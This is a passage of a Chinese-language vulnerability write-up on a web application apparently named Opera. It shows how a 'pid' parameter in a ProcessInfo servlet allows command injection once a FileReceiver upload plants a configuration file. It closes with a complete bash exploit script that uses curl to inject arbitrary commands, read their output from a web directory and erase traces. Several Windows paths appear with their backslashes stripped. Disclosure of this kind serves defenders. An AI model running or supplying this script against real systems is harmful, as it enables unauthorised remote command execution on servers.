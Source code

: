 以上便是我在调查过程中，得出的最满意的结果。因为以上二者看似无关，但将它们结合在一起，便能揭示出攻击者的恶意企图。

在系统中含有一个判断数据传输过程正误的程序。在数据传输完成后，它将会给系统返回确认信息，例如：网络端口号（PID）等。而在黑盒测试中，PID参数是放在一个用于执行系统指令的字符串中，不容易被察觉。攻击者可按下图所示的步骤进行操作：修改该参数来执行另一个命令，并可通过web服务器将输出结果放入另一个可读取的文件中。

[![](https://p4.ssl.qhimg.com/t01499edbabb1718387.png)](https://p4.ssl.qhimg.com/t01499edbabb1718387.png)

若一切顺利，该程序会输出结果whoami，并将其放在webtemp文件下。若运行出错，那么系统将会提示“找不到相应文件”的错误信息。

[![](https://p5.ssl.qhimg.com/t011c990f0a043b2840.png)](https://p5.ssl.qhimg.com/t011c990f0a043b2840.png)

在浏览了该程序的编译代码后，我们会发现出错之处（即下图内红框标识部分）。在编译好的代码中包含了pslist工具（pslist：查看系统进程，是一个属性文件）的运行路径。该文件的存储路径经过硬编码处理，为：D:microsoperaoperaiasdefault.env，但我按此路径查找后发现，该文件并不存在。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01985030a8f1bff6a0.png)

为了修改这一错误，需要进行以下两步操作：

（1）在系统中找到OPERA_HOME属性的值；

（2）将其保存到D:microsoperaoperaiasdefault.env.路径下。

巧合地是，我在系统中发现了另一个诊断程序，它能够查看OPERA_HOME属性信息。如下图所示：

[![](https://p3.ssl.qhimg.com/t01a46e711b3ba0df01.png)](https://p3.ssl.qhimg.com/t01a46e711b3ba0df01.png)

接着，我们便可将刚才那个Servlet程序作为RFI载体，上传至目标路径：

[![](https://p2.ssl.qhimg.com/t01683768979423bf58.png)](https://p2.ssl.qhimg.com/t01683768979423bf58.png)

  我利用ProcessInfo程序检查之后发现，该错误已经修改了。同时，系统给出的输出结果“whoami”也证实了该应用程序能够正常运行了。

[![](https://p2.ssl.qhimg.com/t0176e214672b660762.png)](https://p2.ssl.qhimg.com/t0176e214672b660762.png)

下面的脚本程序可用于验证操作：



```
#!/bin/bash
STDOUT="D:microsoperaoperaiaswebtemptemp.log"
if [ "$#" -ne 2 ]; then
    echo "Usage: $0 &lt;host&gt; &lt;command&gt;"
    echo "E.g. : $0 http://opera.example.biz whoami"
    exit 1
else
    host="$1"
    cmd="$2"
fi
# Activate exploit.
curl -s -XPOST --data-binary "OPERA_HOME=D:microsopera" "$host/Operajserv/webarchive/FileReceiver?filename=D:/micros/opera/operaias/default.env&amp;crc=26&amp;append=false" &gt; /dev/null
# Inject command.
curl -s -G --data-urlencode "pid=1 &amp; $cmd &gt; "$STDOUT" 2" "$host/Operajserv/webarchive/ProcessInfo" &gt; /dev/null
curl -# -G "$host/webtemp/temp.log"
# Deactivate exploit.
curl -s -G --data-urlencode "pid=1 &amp; del "$STDOUT" 2" "$host/Operajserv/webarchive/ProcessInfo" &gt; /dev/null
curl -s -G --data-urlencode 'pid=1 &amp; del "D:microsoperaoperaiasdefault.env" 2' "$host/Operajserv/webarchive/ProcessInfo" &gt; /dev/null
```
